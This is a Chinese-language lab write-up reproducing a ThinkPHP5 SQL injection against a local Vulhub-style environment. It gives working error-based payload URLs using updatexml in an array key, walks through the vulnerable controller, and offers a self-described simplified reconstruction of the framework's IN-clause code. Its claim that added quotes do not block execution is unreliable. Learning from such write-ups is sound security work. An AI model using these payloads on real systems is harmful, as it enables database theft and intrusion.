



# ThinkPHP5  SQL注入漏洞复现笔记

# 一、漏洞基础信息

## 1.1 漏洞编号与影响范围

- **核心漏洞类型**：SQL注入漏洞（报错注入、联合注入均可触发，无需开启调试模式也可利用）
- **影响版本**：ThinkPHP 5.0.x全系列低版本（5.0.10、5.0.15、5.0.23）、ThinkPHP 5.1.x早期版本，Vulhub默认使用5.0.15经典漏洞版本
- **漏洞危害等级**：高危

## 1.2 漏洞核心原理

ThinkPHP5框架支持以数组形式传入查询、更新、插入等数据库操作参数，框架在解析这类数组参数时，针对inc、dec、exp等特殊操作符，未对后续用户可控参数做SQL关键字过滤、特殊字符转义处理，直接将可控内容拼接至原生SQL语句执行。攻击者可构造恶意数组Payload，精准命中框架漏洞解析分支，绕过常规防护，实现数据库信息窃取、数据篡改、文件读取甚至服务器权限获取等恶意操作，该漏洞利用门槛极低，Payload构造简单，在老旧TP5项目中检出率极高。

# 二、测试环境搭建

## 2.1 环境准备

- 操作系统：Linux（推荐Ubuntu、CentOS）

- 依赖工具：Docker、Docker Compose（Vulhub基于容器化部署，提前安装好即可）

- 环境来源：https://github.com/rvvter/security-study/tree/0f98328b5eae6c42cd5f898f9b5f22fa7dc54572/lab/ThinkPHP5%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E

- 工具：浏览器、Burp Suite（可选，用于抓包优化Payload）

  ## 

## 2.2 环境启动



当访问http://localhost/index.php?ids[]=1&ids[]=2 看见如下图所示，说明环境启动成功


# 三、漏洞复现

## 3.1 报错注入复现

先尝试各种判断语句，最后在发现

```
http://localhost/index.php?ids[/]=1
```

出现报错



有报错，尝试报错注入

```
http://localhost/index.php?ids[0,updatexml(0,concat(0x7e,user(),0x7e),0)]=1
```



# 四、漏洞核心原理深度分析

漏洞的核心触发逻辑 ——**ThinkPHP 的`where('id', 'in', $ids)`语法在处理非预期数组格式时，会将恶意 SQL 语句直接拼接到最终执行的 SQL 中**。

## 4.1先读懂这一段代码的逻辑

```php
<?php
namespace app\index\controller;
use app\index\model\User;
class Index
{
    public function index()
    {
        // 1. input('ids/a')：TP框架的参数获取方法，/a 表示强制解析为数组
        $ids = input('ids/a'); 
        // 2. 实例化User模型（对应数据库user表）
        $t = new User();
        // 3. 核心：where('id', 'in', $ids) 构造id的IN查询
        $result = $t->where('id', 'in', $ids)->select();
        // 4. 遍历输出查询结果
        foreach($result as $row) {
            echo "<p>Hello, {$row['username']}</p>";
        }
    }
}
```

**正常场景**：如果传入 `?ids[]=1&ids[]=2`，TP 会解析 `$ids = [1,2]`，最终生成 SQL：

```
SELECT * FROM `user` WHERE `id` IN (1,2)
```

## 4.2、漏洞核心：TP 对「非索引数组」的 IN 查询拼接逻辑

 Payload `ids[0,updatexml(0,concat(0x7e,%20user(),0x7e),0)]=1` 能注入，关键是**TP 处理「关联数组 / 非索引数组」的 IN 查询时，会把数组的「键」拼接到 SQL 中**，具体分两步：

#### 步骤 1：input ('ids/a') 解析你的 Payload 为关联数组

 URL 参数 `ids[0,updatexml(...)]=1` 被 TP 的 `input('ids/a')` 解析后，`$ids` 变成：

```php
$ids = [
    '0,updatexml(0,concat(0x7e, user(),0x7e),0)' => 1 // 键是恶意语句，值是1
];
```

注意：这不是 TP 的 bug，而是 PHP/TP 对数组参数的正常解析规则 ——`ids[key]=value` 会被解析为关联数组。

#### 步骤 2：TP 的 where ('id', 'in', $ids) 拼接 SQL 的致命问题

TP 框架在处理 `where('字段', 'in', 数组)` 时，逻辑如下：

- 如果是**索引数组**（如 `[1,2,3]`）：正常拼接为 `IN (1,2,3)`；
- 如果是**关联数组**（如你的情况）：TP 会把「键」和「值」都带入拼接，最终生成畸形但可执行的 SQL。

#####  Payload 触发的最终 SQL（核心！）

TP 拼接后执行的 SQL 语句是

```sql
SELECT * FROM `user` WHERE `id` IN ('0,updatexml(0,concat(0x7e, user(),0x7e),0)' = 1)
```

拆解这个 SQL 的执行逻辑：

1. `'0,updatexml(...)' = 1` 是一个「布尔表达式」，MySQL 会先执行这个表达式；

2. 表达式中 

   ```
   0,updatexml(...)
   ```

    里的逗号是 SQL 的「表达式分隔符」，相当于：

   ```
   '0' , updatexml(0,concat(0x7e, user(),0x7e),0) = 1
   ```

3. MySQL 执行 `updatexml(...)` 函数时，因第二个参数是 `~root@localhost~`（非法 XPath 格式），触发报错，报错信息中包含 `user()` 的结果；

4. 最终：原本的数组「键名」被当作 SQL 表达式执行，报错注入成功。

## 4.3、为什么 TP 会这么拼接？（框架层面的逻辑）

TP 的`where IN`语法对数组的处理源码（简化版）：

```php
// TP框架内部处理IN条件的核心逻辑
public function parseInCondition($field, $value) {
    if (is_array($value)) {
        $ids = [];
        foreach ($value as $k => $v) {
            // 关联数组时，k是键，v是值，会拼接为 "k = v"
            $ids[] = is_numeric($k) ? $v : "{$k} = {$v}";
        }
        return "IN (" . implode(',', $ids) . ")";
    }
    return "IN ({$value})";
}
```

你的关联数组 `['恶意键' => 1]` 会被处理为：

```
$ids[] = "0,updatexml(0,concat(0x7e, user(),0x7e),0) = 1";
```

最终拼接成 `IN ('0,updatexml(...)' = 1)`（TP 会自动加单引号，但单引号不影响逗号分隔表达式的执行）。

